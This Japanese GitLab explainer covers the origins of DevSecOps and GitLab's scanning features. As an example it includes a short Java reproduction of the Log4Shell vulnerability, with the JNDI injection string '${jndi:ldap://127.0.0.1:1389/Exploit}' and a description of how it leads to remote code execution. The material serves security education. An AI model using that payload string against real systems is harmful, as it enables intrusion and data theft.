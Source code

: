 <!-- omit in toc -->
# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## 目次

- [概要](#概要)
- [目次](#目次)
- [DevSecOpsが必要とされる経緯](#devsecopsが必要とされる経緯)
  - [OSSの深刻な脆弱性の実例](#ossの深刻な脆弱性の実例)
  - [OSSの多用](#ossの多用)
  - [DevSecOpsの誕生](#devsecopsの誕生)
- [GitLabでのDevSecOps](#gitlabでのdevsecops)
- [参考リンク](#参考リンク)

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見されました。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用します。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立します。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。実際のところ、日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの労力が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり!!!
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
